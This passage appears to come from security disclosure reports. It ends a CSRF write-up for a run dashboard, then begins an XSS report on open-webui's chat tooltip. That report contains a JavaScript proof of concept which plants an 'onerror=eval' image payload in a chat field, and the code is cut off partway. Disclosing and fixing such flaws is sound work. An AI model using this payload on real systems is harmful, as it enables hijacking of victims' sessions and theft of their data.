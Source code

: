 Now, if you see the dashboard again, the run from step 3 is no longer there as it was deleted by the CSRF script in step 4. This is just an example of the possibility of the CSRF attack among many.

Impact
- Site-wide CSRF exploitation possible
- Deletion of runs
- Update data for runs
- Steal data such as log records, notes and other data in the dashboard
###  XSS via chat information tooltip in [open-webui/open-webui](https://github.com/open-webui/open-webui)
There is an XSS vulnerability in the function that constructs the HTML for tooltips. When a shared chat is opened, various operations can be performed with the victim's privileges.

Pasting the PoC below into the browser's Developer Tools will generate a URL that triggers XSS.

```js
(async () => {
    // create chat
    const { id: chat_id } = await fetch('http://localhost:3000/api/v1/chats/new', {
        method: 'POST',
        credentials: 'include',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ chat: { title: 'XSS' } })
    }).then((res) => res.json());

    console.log({ chat_id });

    // build malicious chat message
    const info = {
        id: 'yo',
        openai: {},
        prompt_tokens: '<img src=x onerror=eval(decodeURIComponent(location.hash.replace(/^#/,"")))>',
        completion_tokens: 1,
        total_tokens: 1
    };
    const payload = {
        chat: {
            models: ['gpt-4o'],
            messages: [
                {
                    id: 'd3c6cf27-832b-4525-a5b9-f522c507e1fa',
                    parentId: null,
                    childrenIds: ['4919b533-1a01-4aeb-8b0b-a7341c74356d'],
                    role: 'user',
                    content: 'test',
                    timestamp: 1720934988,
                    models: ['gpt-4o']
                },
                {
                    parentId: 'd3c6cf27-832b-4525-a5b9-f522c507e1fa',
                    id: '4919b533-1a01-4aeb-8b0b-a7341c74356d',
                    childrenIds: [],
                    role: 'assistant',
                    content: 'It looks like you might be running a test. How can I assist you today?',
                    model: 'gpt-4o',
                    modelName: 'gpt-4o',
                    userContext: null,
                    timestamp: 1720934988,
                    lastSentence: 'It looks like you might be running a test.',
                    done: true
                }
            ],
```